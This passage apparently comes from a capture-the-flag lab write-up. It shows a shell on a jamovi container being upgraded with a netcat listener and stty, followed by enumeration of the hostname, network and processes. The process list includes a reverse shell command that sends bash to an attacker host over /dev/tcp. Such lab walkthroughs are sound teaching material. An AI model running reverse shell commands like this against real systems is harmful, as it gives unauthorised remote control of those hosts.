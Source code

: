 

    root@b06821bbda78:~# script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    root@b06821bbda78:~# ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
                                                                             
    root@b06821bbda78:~# 



## Shell as www-data in Bolt Container

### Enumeration

#### Container

This shell is clearly in a container:



    root@b06821bbda78:~# hostname
    b06821bbda78                    
    root@b06821bbda78:~# ip addr  
    bash: ip: command not found
    root@b06821bbda78:~# ifconfig
    bash: ifconfig: command not found
    root@b06821bbda78:~# cat /proc/net/fib_trie
    Main:
    ...[snip]...
         +-- 172.18.0.0/16 2 0 2
            +-- 172.18.0.0/30 2 0 2
               |-- 172.18.0.0
                  /32 link BROADCAST
                  /16 link UNICAST
               |-- 172.18.0.2
    ...[snip]...



The IP is 172.18.0.2, and there's very limited tools installed. The
process list shows only jamovi stuff:



    root@b06821bbda78:~# ps auxww
    USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    root           1  0.0  0.0 101704   288 ?        Ss   15:21   0:00 /bin/bash /usr/bin/jamovi-server 41337 --if=*
    root          12  1.1  1.2 863208 24240 ?        Sl   15:21   1:28 python3 -u -m jamovi.server 41337 --if=*
    root          42  0.2  4.2 501692 85908 ?        Sl   17:10   0:02 /usr/lib/jamovi/bin/jamovi-engine --con=ipc:///tmp/tmp94xmzbhn/conn-0 --path=/tmp/tmp3ymj4a5l
    root          44  0.1  2.9 255848 59840 ?        Sl   17:10   0:01 /usr/lib/jamovi/bin/jamovi-engine --con=ipc:///tmp/tmp94xmzbhn/conn-1 --path=/tmp/tmp3ymj4a5l
    root          46  0.1  2.9 255848 59652 ?        Sl   17:10   0:01 /usr/lib/jamovi/bin/jamovi-engine --con=ipc:///tmp/tmp94xmzbhn/conn-2 --path=/tmp/tmp3ymj4a5l
    root          60  0.0  0.2  90072  5948 ?        S    17:21   0:00 sh -c bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'
    root          61  0.0  0.3 101704  7200 ?        S    17:21   0:00 bash -c bash -i >& /dev/tcp/10.10.14.6/443 0>&1
    root          62  0.0  0.3 101880  7716 ?        S    17:21   0:00 bash -i
    root          68  0.0  0.3 102660  6500 ?        R    17:22   0:00 script /dev/null -c bash
    root          69  0.0  0.2  90072  5924 pts/0    Ss   17:22   0:00 sh -c bash
    root          70  0.0  0.3 101884  7740 pts/0    S    17:22   0:00 bash
